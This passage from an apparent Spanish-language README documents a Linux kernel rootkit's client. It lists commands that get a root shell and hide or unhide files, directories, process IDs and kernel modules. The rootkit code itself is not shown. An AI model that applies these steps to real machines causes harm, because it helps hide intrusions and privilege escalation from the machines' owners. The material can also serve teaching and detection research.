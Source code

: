 #### 3. Verificar Comunicación
```bash
# Probar que el cliente funciona
./client --help

```

---

### Uso del Rootkit

#### Comandos Disponibles

##### Control de Acceso
```bash
# Obtener shell root
./client --root-shell
```

##### Manejo de Archivos
```bash
# Ocultar archivo
./client --hide-file=archivo.txt

# Desocultar archivo  
./client --unhide-file=archivo.txt
```

##### Manejo de Directorios
```bash
# Ocultar directorio
./client --hide-dir=directorio_secreto

# Desocultar directorio
./client --unhide-dir=directorio_secreto
```

##### Manejo de Procesos
```bash
# Ocultar proceso (usar PID real)
./client --hide-pid=1234

# Desocultar proceso
./client --unhide-pid=1234
```

##### Manejo de Módulos
```bash
# Ocultar módulo del kernel
./client --hide-module=bluetooth

# Desocultar módulo
./client --unhide-module=bluetooth
```

